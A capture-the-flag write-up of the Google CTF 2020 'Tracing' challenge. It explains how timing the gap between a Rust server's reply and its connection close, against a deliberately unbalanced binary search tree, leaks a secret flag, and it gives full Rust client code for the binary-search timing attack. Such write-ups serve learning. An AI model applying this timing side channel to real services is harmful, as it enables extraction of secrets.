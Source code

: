 ## CTF 2020 Tracing writeup

Well, its been a while since ctf google competition has ended (August 2020) but I just discovered it and thought I should give it a go.
Soo here it goes:


The challenge is under the pwn category and it is considered an easy one (but awards 151 points instead of the 50 that most easy challenges are worth)

The description of the challenge is the following:
```
An early prototype of a contact tracing database is deployed for the developers to test,
but is configured with some sensitive data. See if you can extract it.
```

Google provides a zip file that has a basic rust implementation of a server and an implementation of a b-tree.

### Understanding the problem
We can assume that the purpose of using rust here is to make sure that buffer overflow attacks are impossible. Neither the webserver nor b-tree implementation seem to have any unsafe code that we could exploit.

We can formulate though a solution, if we track down the logic the webserver is following.

First of all we can see that the server loads up some flag (thats what we're tasked to find to complete the challenge) which is 16 bytes and casts it to a Uuid.
```rust
 let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();
```


Every new connection to the server spawns a thread that handles it and performs the following:
  * Read N bytes untill the reading channel is closed from the client
  * Split the N bytes into chunks of 16 bytes
  * Create N/16 Uuids and insert them into a fresh b-tree
  * Write back to the client the number of inserted Uuids
  * Search the input flag into the b-tree
  * Close the connection
  
Highlighting those in code:
```rust
...
    // receive bytes
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    // split to chunks
    let chunks = {
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };

    let mut count: u32 = 0;
    // create collection of Uuids
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    // Use ids to populate a fresh binary tree
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    // respond with a number
    stream.write_all(&count.to_be_bytes()).await?;

    // perform check
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    // shutdown connection
    stream.shutdown(std::net::Shutdown::Both)?;
...
```

As we can see from the above, we can only alter the content of the b-tree and have no way to retrieve anything other than the number of elements we inserted into it.

### Craft a theoritical solution
What allows to solve this challenge instead is the timing in which the server responds and closes the connection.
The server writes back to the client the moment it has finished inserting the values into the b-tree and closes the connection only after a complete search for the flag into the tree.

Which means that the only attack angle here is **timing**.

A quick check on the binary tree implementation shows that this is **not** a self-balancing b-tree, which means that we can create a totally unbalanced b-tree and therefore alter the searching time on demand.

A simple example on how we could leverage that and search for the flag is the following:

Assuming that the flag is a value between 1-100, inserting into the binary tree values 50,51,.....80 will create the following tree:

![](./images/tracing1.png)


if the flag is between 0-50 the search operation will be O(1) and if it is on the upper bound the operation becomes O(n)

We can then measure the time from the moment the server responds till it shuts down the connection.
We repeat the same thing but in reverse this time. We insert 50,49,...20.
which will be O(1) for values higher than 50 and O(n) for the lower bound.

Measuring again will give us 3 possible results.
If our flag is between 50-100 it will take more time to be searched through the first tree and if it is between 0-50 it will take more time on the second tree. IF the time is identical we just found the flag first try (very unlikely). By noting that down we can inference in which half of the key space our flag is on. Congrats, we just performed the first step of Binary search, then we only have to rinse and repeat couple of times till we get really close to the flag value.

### Implement solution
In this exact problem we have 2^ (16*8) = 2^128 flags that we have to binary search through them.

For the sake of getting more familiar with rust I created a client in rust that would perform those checks for me.
What is very convinient is that we could use a ```u128``` to represent each Uuid. Therefore we can easily do numeric operations without a care in the world.

Therefore I use one function that:
  * takes a u128 which is the middle point in my binary search and a sign ("+" or "-") 
  * initiates a connection to the server
  * writes 1000 consecutive (in increasing or decreasing order based on the sign) Uuids to the server
  * waits for the response
  * initiates a time instance
  * and returns it when the connection is closed

```rust
fn check_mid(middle: u128, sign: &str) -> std::io::Result<std::time::Instant> {
    let mut stream = TcpStream::connect("some.server:1337")?;
    for i in 0..1000 {
        if sign == "+" {
            stream.write(&(middle + i).to_be_bytes())?;
        } else {
            stream.write(&(middle - i).to_be_bytes())?;
        }
    }
    // close writing channel and make server create b-tree
    stream.shutdown(Shutdown::Write)?;
    let mut buffer: [u8; 4] = [1, 1, 1, 1];
    // read response
    stream.read(&mut buffer)?;
    //start measuring the time
    let now = Instant::now();
    // return the time instance for evaluation
    Ok(now)
}
```

Then I used this function to perform my binary search throughout the flag space.

```rust
fn main() {
    // start at the middle of our 16byte key space
    let mut middle: u128 = u128::MAX / 2;
    let mut i = 2;
    while i < 127 {
        let mut right: u128 = 0;
        let mut left: u128 = 0;
        // get accumulated elapsed time from communicating with the server
        for _ in 0..200 {
            right += check_mid(middle, "+")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
            left += check_mid(middle, "-")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
        }
        // move the middle point according to the statistics gathered
        // this is the essense of the binary search
        if right > left && right.wrapping_sub(left) > 20000 {
            middle = middle + (u128::MAX / 2u128.pow(i));
            i += 1;
        } else if left > right && left.wrapping_sub(right) > 20000 {
            middle = middle - (u128::MAX / 2u128.pow(i));
            i += 1;
        }
        // print iteration of the binary search, u128 , uuid and characters of current iteration
        println!(
            "middle {} : {} : {:?}  : {:?}",
            i,
            middle,
            Uuid::from_bytes(middle.to_be_bytes()),
            middle
                .to_be_bytes()
                .iter()
                .map(|&byte| byte as char)
                .collect::<Vec<char>>()
        );
    }
}
```

It is worth noting that the measurement of time is significant to the binary search path. Random spikes in the network latency can completely ruin our results. Therefore I'm repeating the same request 200 times in an attempt to eliminate the network variable.

In addition, after a quick research I found that google's VM is located in europe-west1-d datacenter and I ran my program from a VM there to further decrease the random latency.


Thank god binary search works this way, and we only need to do 128 requests to search all of the key space of the flag.
After a long while, we can obtain the flag.

In occasional errors, we can restart the app adjusting the ```i``` and ```middle``` for the search to continue from where it failed.

